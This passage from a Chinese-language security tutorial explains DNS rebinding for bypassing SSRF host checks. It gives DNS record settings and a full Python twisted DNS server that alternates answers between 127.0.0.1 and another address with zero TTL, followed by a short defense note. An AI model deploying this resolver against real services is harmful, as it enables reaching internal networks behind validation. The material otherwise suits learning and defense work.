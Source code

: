 在上面的流程中，如果在 DNS 第二次解析的时候，我们能够更换 URL 对应的 IP，那么在 TTL 之后、缓存失效之后，重新访问此 URL 的话，就能获取被更换后的 IP。如果我们把第一次解析的 IP 设为合法 IP，就能绕过 host 合法性检查；把第二次解析的 IP 设为内网 IP，就达到了 SSRF 访问内网的目的。

总结

DNS 重绑定攻击的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的 ip 达到突破同源策略或过 waf 进行 ssrf 的目的。

#### [](#242-%E5%AE%9E%E7%8E%B0)2.4.2 实现

**一些 DNS Rebinding 平台**

-   [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
-   [https://requestrepo.com/](https://requestrepo.com/)

**手动实现**

需要先添加一条 NS 记录和一条 A 记录：

| 记录类型 | 主机记录 | 记录值 |
| --- | --- | --- |
| NS  | test | ns.geekby.xyz |
| A   | ns  | 39.96.14.41 |

NS 记录表示域名 `test.geekby.xyz` 这个子域名指定由 `ns.geekby.xyz` 这个域名服务器来解析，然后 A 记录表示这个 `ns.geekby.xyz` 的位置在 IP 地址 `39.96.14.41` 上。

这里搭建 DNS 服务器采用 python 的 twisted 库中的 name 模块，代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>``` | ```python<br>from twisted.internet import reactor, defer<br>from twisted.names import client, dns, error, server<br><br>record={}<br><br>class DynamicResolver(object):<br><br>    def _doDynamicResponse(self, query):<br>        name = query.name.name<br><br>        if name not in record or record[name] < 1:<br>            ip = "127.0.0.1"<br>        else:<br>            ip = "1.2.3.4"<br><br>        if name not in record:<br>            record[name]=0<br>        record[name]+=1<br><br>        print name+" ===> "+ip<br><br>        answer = dns.RRHeader(<br>            name=name,<br>            type=dns.A,<br>            cls=dns.IN,<br>            ttl=0,<br>            payload=dns.Record_A(address=b'%s'%ip,ttl=0)<br>        )<br>        answers = [answer]<br>        authority = []<br>        additional = []<br>        return answers, authority, additional<br><br>    def query(self, query, timeout=None):<br>        return defer.succeed(self._doDynamicResponse(query))<br><br>def main():<br>    factory = server.DNSServerFactory(<br>        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]<br>    )<br><br>    protocol = dns.DNSDatagramProtocol(controller=factory)<br>    reactor.listenUDP(53, protocol)<br>    reactor.run()<br><br><br><br>if __name__ == '__main__':<br>    raise SystemExit(main())<br>``` |

#### [](#243-%E9%98%B2%E5%BE%A1%E6%96%B9%E6%B3%95)2.4.3 防御方法

通过控制两次的 DNS 查询请求的间隔低于 TTL 值，确保两次查询的结果一致。

Java 应用的默认 TTL 为 10s，这个默认配置会导致 DNS Rebinding 绕过失败。
